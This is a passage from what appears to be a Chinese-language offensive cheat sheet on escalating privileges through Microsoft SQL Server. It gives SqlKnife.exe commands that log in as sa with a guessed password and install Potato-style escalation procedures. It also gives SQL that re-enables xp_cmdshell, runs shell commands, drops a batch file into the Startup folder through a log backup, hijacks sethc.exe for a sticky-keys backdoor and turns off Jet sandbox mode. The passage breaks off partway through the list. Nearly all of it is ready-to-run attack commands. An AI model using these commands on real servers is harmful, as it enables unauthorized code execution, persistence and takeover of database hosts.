     SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup --fix --3	        # 安装.net3.5的甜土豆提权存储过程，如果安装.net4.0的话就是--4
    SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup -c whoami	        # 利用甜土豆执行命令
    SqlKnife.exe -H 192.168.49.143 -u sa -p admin@123 --dbup2 --3 --fix	                # 安装.net3.5的EfsPotato提权存储过程，如果安装.net4.0的话就是--4
    SqlKnife.exe -H 192.168.49.143 -u sa -p admin@123 --dbup2 -c whoami	                # 使用EfsPotato执行命令
    ```

### MSSQL提权

**SA 提权**

1. 判断扩展存储是否存在:
    ```
    select count(*) from master.dbo.sysobjects where xtype = 'x' AND name= 'xp_cmdshell'
    select count(*) from master.dbo.sysobjects where name='xp_regread'
    恢复:
    exec sp_dropextendedproc 'xp_cmdshell'
    exec sp_dropextendedproc xp_cmdshell,'xplog70.dll'
    EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;(SQL2005)
    ```

2. 列目录:
    ```
    exec master..xp_cmdshell 'ver'
    (or) exec master..xp_dirtree 'c:\',1,1
    (or) drop table black
    create TABLE black(mulu varchar(7996) NULL,ID int NOT NULL IDENTITY(1,1))--
    insert into black exec master..xp_cmdshell 'dir c:\'
    select top 1 mulu from black where id=1
    xp_cmdshell 被删除时,可以用(5.a)开启沙盒模式,然后(5.b)方法提权
    ```

3. 备份启动项:
    ```
    alter database [master] set RECOVERY FULL
    create table cmd (a image)
    backup log [master] to disk = 'c:\cmd1' with init
    insert into cmd (a) values (0x(batcode))
    backup log [master] to disk = 'C:\Documents and Settings\Administrator\「开始」菜单\程序\启动\start.bat'
    drop table cmd
    ```

4. 映像劫持

    `xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe','debugger','reg_sz','c:\windows\system32\cmd.exe'`

5. 沙盒模式提权:

    a : `exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet.0\Engines','SandBoxMode','REG_DWORD',0;` # 关闭沙盒模式

